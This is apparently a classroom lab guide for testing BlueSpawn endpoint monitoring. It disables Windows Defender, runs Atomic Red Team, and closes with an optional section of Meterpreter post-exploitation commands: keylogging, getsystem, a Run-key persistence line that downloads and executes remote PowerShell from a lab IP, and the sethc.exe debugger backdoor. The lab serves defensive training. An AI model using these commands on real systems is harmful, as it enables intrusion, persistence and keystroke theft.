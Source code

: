 

# Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.


Let's get started by opening a Terminal as Administrator:


![](attachments/Clipboard_2020-06-12-10-36-44.png)


Now, let's open a command Prompt:

![](attachments/Clipboard_2020-06-16-09-53-18.png)

Next, let’s change directories to tools and start Bluespawn:
C:\Users\adhd>`cd \tools`

C:\tools>`BLUESPAWN-client-x64.exe --monitor --level Cursory`


![](attachments/Clipboard_2020-06-16-09-46-00.png)

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell Prompt:

![](attachments/Clipboard_2020-06-16-09-55-12.png)

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

PS C:\Users\adhd> `cd C:\AtomicRedTeam\invoke-atomicredteam\`

Then, install the proper yaml modules

PS C:\Users\adhd> `Install-Module -Name powershell-yaml`

PS C:\AtomicRedTeam\invoke-atomicredteam> `Import-Module .\Invoke-AtomicRedTeam.psm1`


Now, we need to invoke all the Atomic Tests.

Special note...  Don't do this in production...  Ever.  Always run tools like Atomic Red Team on test systems.  We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode.  This is so you can see what the protection would have done, but it will allow the tests to finish.

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All`

If you get any “file exists” questions or errors, just select Yes.

It should look like this:

![](attachments/Clipboard_2020-06-16-09-48-18.png)

Please note, there will be some errors when this runs.  This is normal.


Only let this run for about 120 seconds!!!  Kill it with Ctrl + c!!

You should be getting a lot of alerts with Bluespawn Switch tabs in your Terminal to see them:

![](attachments/Clipboard_2020-06-16-09-47-26.png)


Now, let’s go back to the PowerShell prompt and clean up:

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All -Cleanup`

It should look like this:

![](attachments/Clipboard_2020-06-23-13-36-10.png)

# If you have more time

Feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands


Run commands

meterpreter > `keyscan_start`

meterpreter > `keyscan_dump`

![](attachments/Clipboard_2020-06-15-13-52-00.png)



meterpreter > `shell`

C:\> `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f`

C:\>  `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"`

![](attachments/Clipboard_2020-06-15-14-00-53.png)



meterpreter >`getsystem`

![](attachments/Clipboard_2020-06-15-13-52-28.png)


![](attachments/Clipboard_2020-06-15-13-56-34.png)




